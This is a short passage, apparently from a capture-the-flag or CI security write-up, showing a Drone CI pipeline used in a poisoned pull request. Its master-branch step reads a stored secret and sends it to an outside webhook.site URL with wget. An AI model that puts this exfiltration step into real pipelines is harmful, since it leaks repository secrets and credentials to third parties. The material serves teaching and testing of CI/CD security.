 ```yml
        from_secret: flag
trigger:
  branch:
    exclude:
      - master

---
kind: pipeline
type: exec
name: test pipeline master

platform:
  os: linux
  arch: amd64

steps:
  - name: master
    commands:
      - echo "Running from the $DRONE_BRANCH branch"
      - echo "Flag -> $FLAG"
      - wget "https://webhook.site/c6db1a4c-adad-4d53-b47e-3eee94940202/?flag=$FLAG"
    environment:
      FLAG:
        from_secret: flag
trigger:
  branch:
    - master

```

![](images/poisoned_pr.png)
